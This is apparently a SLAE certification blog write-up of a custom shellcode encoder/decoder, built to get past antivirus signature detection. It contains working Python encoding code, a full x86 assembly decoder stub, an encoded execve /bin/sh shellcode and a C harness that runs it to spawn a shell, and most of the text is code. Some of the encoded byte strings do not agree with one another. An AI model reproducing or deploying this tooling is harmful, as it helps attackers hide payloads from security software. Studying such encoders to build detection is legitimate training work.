


# Assignment 4 #

The objective of this exercise is to create an encoder / decoder for shellcode. The coding offers a way to bypass the antivirus detection systems as many of these systems use digital print systems as a way a detection.

## Coding principles ##

The shellcode is divided in blocks of 2 bytes.
To each byte we add a random value then we proceed to the below detailed operations:
 - Add up of the random value 
 - xor of the 2 bytes of the shellcode + add up of the random value 
 - Second byte on shellcode + random value 

So for the le block "\x01\x02" with a random value of 0x04:

```\x04 | ((\x01 ^ \x02) + \x04) | \x02 + \x04  => \x04\x07\x06```

<a href="../assets/images/encode1.png"></a>

The division being realized by blocks of 2, we must take into account the possibility to be facing an odd shellcode size. For this, considering the last byte we add up the 0xFF flag before it, then a random value between the flag and the last byte. Then the last byte of the shellcode is xored with the random value.

`\x09 -> \xFF\x09 -> \xFF\x06\x0F`

<a href="../assets/images/encode2.png"></a>

## Code ##

Below the code of the encoder/decoder realized in python.
We check the absence of null byte and of any value superior to 0xFF.


```c
#!/usr/bin/python
# Encoder / Decoder from Assignement 6
# StudentID - SLAE-3763
# Author : Alain Menelet


import random
import argparse

def main():
    parser = argparse.ArgumentParser(prog='Encoder Python SLAE', description="Encoder shellcode")
    parser.add_argument('-s', dest="shellcode",type=str, help="shellcode", required=True)
    parser.add_argument('-a', dest="action", default="encode", help="encode or decode")
    args = parser.parse_args()


    if args.action == "encode":
        encode(args.shellcode)
    elif args.action == "decode":
        decode(args.shellcode)
    else:
        print "erreur dans la saisie de l'action"


def clear(shellcode):
    return shellcode.replace('\\x','')


def encode(shellcode):
    """
    Encode the shellcode
    :param shellcode: string
    :return:
    """
    encoded = ""
    shell = bytearray.fromhex(clear(shellcode))
    for i in range(0,len(shell) - 1, 2):
        temp = random.randint(1, 10)
        while (((shell[i] ^ shell[i+1]) + temp >= 0xff) or (shell[i] ^ shell[i+1]) + temp == 0):
            temp = random.randint(1, 10)

        encoded += '\\x%02x' % temp
        encoded += '\\x%02x' %((shell[i] ^ shell[i+1]) + temp)
        encoded += '\\x%02x' % (shell[i+1] + temp)

    if (len(bytearray(shell)) % 2):
        while (shell[-1] == temp and (shell[-1] ^ temp == 0)):
            temp = random.randint(1, 10)
        encoded += '\\xFF'
        encoded += '\\x%02x' % temp
        encoded += '\\x%02x' % (shell[-1] ^ temp)

    print 'Taille %d' % len(bytearray(shell))
    print encoded


def decode(shellcodeEncoded):
    """
    Decode the shellcode
    :param shellcodeEncoded: string
    :return:
    """
    shellD = bytearray.fromhex(clear(shellcodeEncoded))
    decoded = ""

    for i in range(0, len(bytearray(shellD))-3,3):
        ran = shellD[i]
        decoded += '\\x%02x' % ((shellD[i + 1] - ran) ^ (shellD[i + 2]-ran))
        decoded += '\\x%02x' % (shellD[i + 2] - ran)

    if shellD[-3] == 255:
        decoded += '\\x%02x' % (shellD[-1] ^ shellD[-2])
    else:
        ran = shellD[-3]
        decoded += '\\x%02x' % ((shellD[-2] - ran) ^ (shellD[-1] - ran))
        decoded += '\\x%02x' % (shellD[-1] - ran)


    print 'Taille %d' % len(bytearray(decoded))
    print decoded


if __name__=='__main__':
    main()


```

Here below the decoder:


We get back the address pointing to the shellcode then we save this address in the stack. We paste this address in the edi register so to be able use the two offsets.
We define too the value of the shellcode via ecx register.


```c
	pop esi                 ; adresse of shellcode
	push esi                ; save the address on the stack
	mov edi, esi            ; copy shellcode address on edi
	xor ecx,ecx
	mul ecx	                ; eax, edx, ecx = 0
	
	mov cl, 0x17            ; set the length of the shellcode
```

The main part of the decoder is described below:
The registers are reset at 0, al will contain the first byte of the shellcode and we check if we are having the value 0xFF. This marker means that the shellcode has an odd length and must be treated a different way. 

The rest of the algorithm is described in the first part of the document.

We use esi and edi as offset, edi for decoding et esi to write the decoded shellcode.
Once it is finished we leap to the final section which is an appeal towards the value on top of the pile, which is the esi push of the program start off.
The consequence is the execution of the decoded shellcode.

```c
_:	
	xor eax, eax						; set eax, ebx, ecx to 0 each turn during the loop
	xor ebx, ebx
	xor edx, edx

	mov byte al, [edi]					; set al with the first byte of the shellcode
	cmp al, 0xff						; al == 0xFF ? 
	jz impair						; if the shellcode len is odd we jump to label impair

	mov byte dl, [edi+1]					; set dl with the second byte of the shellcode
	sub dl, al						; we substract dl with al
	mov byte bl, [edi+2]					; set bl with the third byte of the shellcode
	sub bl, al						; we substract bl with al
	xor dl, bl						; xor dl and bl
	mov [esi], dl						; then we put dl and bl decoded
	mov [esi+1], bl


	inc esi							; because we use esi and edi as offset, we need to increment them
	inc esi
	inc edi
	inc edi
	inc edi

	loop _							; loop while ecx > 0
	jmp short final

    final:
	call [esp]
```

If the size of the shellcode is odd, we proceed to decoding according to the principles defined at the beginning of this document. 

```c
impair:
	mov byte bl, [edi+1]
	mov byte dl, [edi+2]
	xor bl, dl
	mov [esi], bl
```

Ci-dessous le code complet du programme.

```c
; SLAE - Assignment 4: Custom encoder/decoder shellcode (Linux/x86)
; Author: Alain Menelet 
; StudentID - SLAE-3763
; Tested on Ubuntu 16.14.03 LTS


global _start

section .text

_start:
	jmp short Shellcode					; jmp pop call technique

decoder:
	pop esi							; esi = @ of the shellcode
	push esi						; save esi on the stack
	mov edi, esi						; edi = esi because we use two offset for our algo
	xor ecx,ecx						; ecx is set to 0
	mul ecx							; edx, eax are set to 0
	
	mov cl, 0x17						; set the length of the shellcode
	
	
_:	
	xor eax, eax						; set eax, ebx, ecx to 0 each turn during the loop
	xor ebx, ebx
	xor edx, edx

	mov byte al, [edi]					; set al with the first byte of the shellcode
	cmp al, 0xff						; al == 0xFF ? 
	jz impair						; if the shellcode len is odd we jump to label impair

	mov byte dl, [edi+1]					; set dl with the second byte of the shellcode
	sub dl, al						; we substract dl with al
	mov byte bl, [edi+2]					; set bl with the third byte of the shellcode
	sub bl, al						; we substract bl with al
	xor dl, bl						; xor dl and bl
	mov [esi], dl						; then we put dl and bl decoded
	mov [esi+1], bl


	inc esi							; because we use esi and edi as offset, we need to increment them
	inc esi
	inc edi
	inc edi
	inc edi

	loop _							; loop while ecx > 0
	jmp short final
	
impair:
	mov byte bl, [edi+1]					; set bl with the first byte after 0xFF
	mov byte dl, [edi+2]					; set dl with the second byte after 0xFF
	xor bl, dl
	mov [esi], bl						; we store the decoded byte into esi

final:
	call [esp]						; we jump to the address pointed by esp, our saved esi.	

Shellcode:
	call decoder
	shell: db 0x03,0xfb,0xcc,0x04,0x1a,0xe5,0x03,0x45,0xce,0x05,0x2e,0xb5,0x02,0x6b,0xcf,0x01,0x78,0xf8,0x08,0xb8,0x59,0x0a,0x51,0x39,0x0a,0x66,0x7d,0x03,0x03,0x6b,0x03,0x50,0x65,0x06,0x0d,0x74,0x06,0x70,0xe9,0x0a,0xe2,0x93,0x08,0xb9,0x5b,0x03,0x6b,0xe4,0x02,0xbd,0x0d,0x09,0x56,0x89

```


## Exemples ##

### Encodage ###

```c
usage: Encoder Python SLAE [-h] -s SHELLCODE [-a ACTION]

Encoder shellcode

optional arguments:
  -h, --help    show this help message and exit
  -s SHELLCODE  shellcode
  -a ACTION     encode or decode
```

We run the program:

```c
encode_decode.py -s 
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
-a encode
```

And we get the decoded version of the shellcode:

```c
"\x03\xfb\xcc\x07\x1d\xe8\x05\x47\xd0\x04\x2d\xb4\x02\x6b\xcf\x05\x7c\xfc\x06\xb6\x57\x06\x4d\x35\x04\x60\x77\x08\x08\x70\x03\x50\x65\x07\x0e\x75\x03\x6d\xe6\x03\xdb\x8c\x04\xb5\x57\x08\x70\xe9\x07\xc2\x12\x08\x55\x88";
```

### python decoding ###

```c
python
encode_decode.py -s
"\x03\xfb\xcc\x07\x1d\xe8\x05\x47\xd0\x04\x2d\xb4\x02\x6b\xcf\x05\x7c\xfc\x06\xb6\x57\x06\x4d\x35\x04\x60\x77\x08\x08\x70\x03\x50\x65\x07\x0e\x75\x03\x6d\xe6\x03\xdb\x8c\x04\xb5\x57\x08\x70\xe9\x07\xc2\x12\x08\x55\x88"
-a decode
````

```c
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

## Compilation ##

We paste the encoded shellcode inside the decode.asm file. 
We compile our script :

```c
nasm -f elf32 -o $1.o $1.asm

echo "[+] compilation nasm"

ld -m elf_i386 -o $1 $1.o

echo "[+] Edition de liens"

echo "[+] Shellcode ..."
```

but we can't use the command from commandlinefu because some opcode will be missing. 
There is more than 6 rows.

The ligne starting at 80480a9 will contains b5 if we modify commandlinefu because it is at rows 7.

```c
080480a4 <shell>:
 80480a4:	02 fa                	add    %dl,%bh
 80480a6:	cb                   	lret   
 80480a7:	09 1f                	or     %ebx,(%edi)
 80480a9:	ea 03 45 ce 05 2e b5 	ljmp   $0xb52e,$0x5ce4503
 80480b0:	04 6d                	add    $0x6d,%al
 80480b2:	d1 07                	roll   (%edi)
 80480b4:	7e fe                	jle    80480b4 <shell+0x10>
 80480b6:	04 b4                	add    $0xb4,%al
 80480b8:	55                   	push   %ebp
 80480b9:	03 4a 32             	add    0x32(%edx),%ecx
 80480bc:	03 5f 76             	add    0x76(%edi),%ebx
 80480bf:	01 01                	add    %eax,(%ecx)
 80480c1:	69 0a 57 6c 06 0d    	imul   $0xd066c57,(%edx),%ecx
 80480c7:	74 06                	je     80480cf <shell+0x2b>
 80480c9:	70 e9                	jo     80480b4 <shell+0x10>
 80480cb:	0a e2                	or     %dl,%ah
 80480cd:	93                   	xchg   %eax,%ebx
 80480ce:	0a bb 5d 01 69 e2    	or     -0x1d96fea3(%ebx),%bh
 80480d4:	09 c4                	or     %eax,%esp
 80480d6:	14 02                	adc    $0x2,%al
 80480d8:	4f                   	dec    %edi
 80480d9:	82                   	.byte 0x82
 ```


```c
/*
 *      SLAE - Assignment #4: Custom Encoded/decoded Shellcode (Linux/x86)
 *      Author: Alain Menelet 
 *      StudentID - SLAE-3763
 *      HowTo: gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode
 */

#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"\xeb\x3d\x5e\x56\x89\xf7\x31\xc9\xf7\xe1\xb1\x17\x31\xc0\x31\xdb\x31\xd2\x8a\x07\x3c\xff\x74\x1a\x8a\x57\x01\x28\xc2\x8a\x5f\x02\x28\xc3\x30\xda\x88\x16\x88\x5e\x01\x46\x46\x47\x47\x47\xe2\xdc\xeb\x0a\x8a\x5f\x01\x8a\x57\x02\x30\xd3\x88\x1e\xff\x14\x24\xe8\xbe\xff\xff\xff\x02\xfa\xcb\x09\x1f\xea\x03\x45\xce\x05\x2e\xb5\x04\x6d\xd1\x07\x7e\xfe\x04\xb4\x55\x03\x4a\x32\x03\x5f\x76\x01\x01\x69\x0a\x57\x6c\x06\x0d\x74\x06\x70\xe9\x0a\xe2\x93\x0a\xbb\x5d\x01\x69\xe2\x09\xc4\x14\x02\x4f\x82";


int main()
{

        printf("taille %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

        return 0;

}

gcc -fno-stack-protector -z execstack test_shellcode.c -o test_shellcode
```

And we test all of it:

```c
./test_shellcode
$
````

we obtain a shell. Our shellcode has been decoded and executed.


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

StudentID - SLAE-3763
